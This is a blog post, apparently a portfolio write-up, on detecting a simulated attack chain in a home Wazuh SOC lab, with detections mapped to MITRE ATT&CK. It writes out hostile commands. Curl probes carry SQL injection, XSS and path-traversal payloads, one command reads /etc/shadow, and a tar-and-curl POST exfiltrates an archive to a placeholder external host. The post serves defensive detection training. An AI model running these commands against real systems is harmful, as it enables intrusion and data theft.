







# Building a SOC From Scratch: Web Attacks, Persistence, and Exfiltration with Wazuh (Part 2)


> Continuing the multi-stage attack chain from [Part 1](https://github.com/madebyabder/cybersecurity-blog/blob/main/blogs/building-a-home-soc-part-1/index.md) — web application probing, privileged command abuse, persistence techniques, a simulated data exfiltration, and how all six stages tie together into a single investigation.

**Series:** Part 2 of 2 — see [Part 1](https://github.com/madebyabder/cybersecurity-blog/blob/main/blogs/building-a-home-soc-part-1/index.md) for lab architecture, telemetry validation, reconnaissance detection, and SSH brute-force detection.

---

## Table of Contents

1. [Introduction](#introduction)
2. [Background](#background)
3. [Core Concept](#core-concept)
4. [Practical Example](#practical-example)
   - [Detecting Web Application Probing](#detecting-web-application-probing)
   - [Detecting Suspicious Privileged Commands](#detecting-suspicious-privileged-commands)
   - [Detecting Persistence](#detecting-persistence)
   - [Detecting Data Exfiltration](#detecting-data-exfiltration)
   - [Correlating the Full Attack Chain](#correlating-the-full-attack-chain)
5. [Best Practices / Mitigation](#best-practices--mitigation)
6. [Key Takeaways](#key-takeaways)
7. [Conclusion](#conclusion)
8. [References](#references)

---

## Introduction

[Part 1](https://github.com/madebyabder/cybersecurity-blog/blob/main/blogs/building-a-home-soc-part-1/index.md) covered the first half of this attack chain: building the lab, validating telemetry, and detecting reconnaissance and SSH brute-force. On their own, those two stages are relatively low-stakes — a scan and some failed logins.

This second half is where the chain gets more interesting. Once an attacker moves past the door, the questions change: what are they probing on the application layer, what commands are they running once they have some level of access, are they trying to stay, and are they trying to take anything with them?

This project covers:

- Detecting web application probing
- Detecting suspicious privileged command execution
- Detecting persistence attempts
- Detecting a simulated data exfiltration
- Correlating all six stages into one investigation
- What a short incident response writeup looks like for this chain

## Background

Individually, most of these stages generate alerts that look unremarkable: a 404 response, a sudo command that admins run all the time, a cron job, a file copy. None of these are inherently malicious — which is exactly what makes them useful to study. Real detection work is less about spotting an obviously evil action and more about noticing when ordinary actions start forming a pattern.

## Core Concept

The stages below follow the same lab setup as Part 1: Kali as the attacker, Ubuntu Server as the monitored endpoint, Wazuh as the SIEM, all on an isolated Host-Only network.

| Role | OS | IP Address |
|---|---|---|
| Attacker | Kali Linux | `192.168.56.10` |
| Monitored Endpoint | Ubuntu Server | `192.168.56.20` |
| SIEM / SOC Server | Wazuh Server | `192.168.56.30` |

One addition for this half of the chain: **Wazuh's File Integrity Monitoring (FIM/syscheck) module**, which watches specific files and directories for changes and turned out to be the strongest detection in the whole project.

## Practical Example

### Detecting Web Application Probing

I used `curl` from Kali to simulate common web probing behavior against the Nginx server: SQL injection style payloads, XSS payloads, path traversal attempts, and requests for sensitive paths that automated scanners commonly check for, like `/wp-admin`, `/phpmyadmin`, and `/.env`.

```bash
curl "http://192.168.56.20/wp-admin"
curl "http://192.168.56.20/phpmyadmin"
curl "http://192.168.56.20/.env"
curl "http://192.168.56.20/?id=1' OR '1'='1"
curl "http://192.168.56.20/?q=<script>alert(1)</script>"
curl "http://192.168.56.20/../../../../etc/passwd"
```

<!-- 📸 Screenshot: Nginx access log showing the suspicious probing requests -->


Almost all of these came back as 404s, since none of those paths or applications actually exist on this server. That's worth calling out directly: a 404 is not a non-event. It's still evidence that someone is actively fingerprinting your application surface, and a cluster of them from one source IP, hitting known-sensitive paths in a short window, is a meaningful signal on its own — long before any request actually succeeds.

In Wazuh, filtering on the source IP and Nginx logs surfaced the requested URLs, response codes, and rule descriptions tied to web server errors.

<!-- 📸 Screenshot: Wazuh rule detail for the web server error rule -->


**MITRE ATT&CK techniques observed:**
- `T1190` — Exploit Public-Facing Application
- `T1595` — Active Scanning

### Detecting Suspicious Privileged Commands

Next I ran a small set of commands that represent common post-access behavior: checking privilege level, inspecting listening ports, and attempting to read a sensitive system file.

```bash
sudo head /etc/shadow
ss -tulpn
systemctl status
```

<!-- 📸 Screenshot: local auth.log entries showing the sudo commands executed -->


None of these are malicious in isolation. Every one of them is something a legitimate admin runs regularly. What made them worth flagging in this context was the combination and the sequence: privilege enumeration, followed by network reconnaissance, following directly after a brute-force and a round of web probing from the same source.

Wazuh's sudo logging and command auditing surfaced these as discrete events, each mapped individually to MITRE ATT&CK.

<!-- 📸 Screenshot: Wazuh sudo command events -->


**MITRE ATT&CK techniques observed:**
- `T1548.003` — Sudo and Sudo Caching
- `T1082` — System Information Discovery
- `T1033` — System Owner/User Discovery

> **Analyst takeaway:** Command-level detection almost always needs context to be meaningful. Flagging every sudo command in an environment would bury a SOC in noise. Flagging sudo commands that follow a brute-force and precede a persistence attempt is a very different, much more actionable signal.

### Detecting Persistence

This stage is where Wazuh's FIM module did the most work. I simulated three common persistence techniques: adding a cron job under `/etc/cron.d/`, appending an SSH key to an `authorized_keys` file, and dropping a hidden file in `/tmp`.

<!-- 📸 Screenshot: Wazuh FIM alert showing the authorized_keys diff -->


The `authorized_keys` modification was caught immediately by syscheck, with a full diff of what changed — this was, by a clear margin, the cleanest and most confident detection across the entire project. Unlike log-based detections that require interpreting a pattern, FIM gave a direct, unambiguous "this specific file changed, here's exactly how."

The cron job under `/etc/cron.d/` was also picked up through FIM, since that directory is commonly monitored. The hidden file in `/tmp` was the weakest signal of the three — `/tmp` is noisy by nature, and a single new file there without an accompanying process or network event is easy to miss, which is a realistic limitation worth documenting rather than glossing over.

**MITRE ATT&CK techniques observed:**
- `T1098.004` — SSH Authorized Keys
- `T1053.003` — Cron
- `T1564.001` — Hidden Files and Directories

### Detecting Data Exfiltration

For the final stage, I created a fake sensitive file, staged it into a temporary directory, compressed it, and attempted to send it out with `curl`.

```bash
tar -czf staged_data.tar.gz sensitive_file.txt
curl -X POST -F "file=@staged_data.tar.gz" http://<external-host>/upload
```

<!-- 📸 Screenshot: staging folder with the compressed archive -->


The exfiltration attempt itself failed — there was no receiving server on the other end, so the POST request simply errored out. That's fine, and worth stating plainly rather than glossing over: the goal of this stage wasn't a successful exfiltration, it was generating the telemetry that precedes one. The staging, compression, and outbound transfer attempt are themselves the detectable behaviors, regardless of whether the transfer completes.

<!-- 📸 Screenshot: Wazuh event for the curl outbound transfer attempt -->


**MITRE ATT&CK techniques observed:**
- `T1005` — Data from Local System
- `T1560` — Archive Collected Data
- `T1567` — Exfiltration Over Web Service
- `T1048` — Exfiltration Over Alternative Protocol

### Correlating the Full Attack Chain

This is the part that ties the whole project together, and it's the part that matters most for anyone trying to actually think like an analyst rather than just run a checklist of tools.

Look at the very first alert in this whole chain: the Nmap scan from Part 1. In isolation, that alert is Low severity — scans happen constantly, including from legitimate vulnerability management tools. But once you place it at the start of a sequence that includes an SSH brute-force, web probing against sensitive paths, privilege enumeration, a persistence mechanism, and a staged data transfer, all from the same source IP within a short window, that same Low-severity scan retroactively becomes part of a High or Critical incident.

Severity, in other words, isn't a fixed property of an alert type. It's a property of the story the alerts tell together. A SOC that triages each alert independently and closes them individually would miss the chain entirely. A SOC that correlates by source IP, time window, and technique progression catches the actual incident.

**Attack chain summary:**

| Stage | Technique | MITRE ID |
|---|---|---|
| 1. Reconnaissance | Nmap scanning | T1595, T1046 |
| 2. Credential Access | SSH brute-force | T1110 |
| 3. Initial Access probing | Web application probing | T1190, T1595 |
| 4. Discovery | Privileged command execution | T1548.003, T1082, T1033 |
| 5. Persistence | Cron job, authorized_keys, hidden file | T1098.004, T1053.003, T1564.001 |
| 6. Exfiltration | Staged archive + outbound transfer attempt | T1005, T1560, T1567, T1048 |

## Best Practices / Mitigation

**Web application probing**
- Return generic error pages that don't leak stack traces or software versions.
- Rate-limit and log requests to known-sensitive paths.
- Use a web application firewall (WAF) in front of anything internet-facing.

**Privileged command abuse**
- Enable and centralize sudo command logging.
- Alert on privilege enumeration commands following authentication anomalies, not in isolation.

**Persistence**
- Monitor high-value paths with FIM: cron directories, `authorized_keys` files, systemd units.
- Restrict who can write to cron directories and SSH configuration.

**Data exfiltration**
- Monitor and alert on outbound connections to unfamiliar destinations, especially following file compression or staging activity.
- Consider egress filtering so only approved destinations are reachable from sensitive hosts.

**Attack chain correlation**
- Build correlation rules or dashboards around source IP and time window rather than relying on single-alert severity.
- Treat early-stage alerts (recon, probing) as context for anything that follows, not as closed tickets on their own.

## Key Takeaways

- A 404 or a routine sudo command isn't nothing. Context — what happened before and after it — is what determines whether it matters.
- File Integrity Monitoring produced the most confident, least ambiguous detection in this entire project. For persistence specifically, it's worth prioritizing over log parsing alone.
- Severity should be evaluated at the chain level, not the individual alert level. The same alert can be Low in isolation and Critical in context.
- A failed exfiltration attempt still generates valuable, detectable telemetry. Detection doesn't require the attack to succeed.

## Conclusion

Across both parts of this project, the pattern that stood out most wasn't any single detection rule — it was how differently the same event reads in isolation versus in sequence. A scan, a failed login, a 404, a sudo command, a modified file, a compressed archive: none of these are damning on their own, and all of them together tell a very clear story.

That's the core skill this project was built to practice, and it's the same skill that separates alert-clearing from actual SOC analysis: reading events not as isolated facts, but as pieces of a narrative.

## References

- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [Wazuh Documentation](https://documentation.wazuh.com/)
- [Wazuh File Integrity Monitoring Documentation](https://documentation.wazuh.com/current/user-manual/capabilities/file-integrity/index.html)

---

*Originally published on [Medium](https://medium.com/@madebyabder/building-a-soc-from-scratch-web-attacks-persistence-and-exfiltration-with-wazuh-part-2-410e81fc8ebe). Cross-posted here as part of my cybersecurity portfolio. See [Part 1](https://github.com/madebyabder/cybersecurity-blog/blob/main/blogs/building-a-home-soc-part-1/index.md) for the first half of this project.*
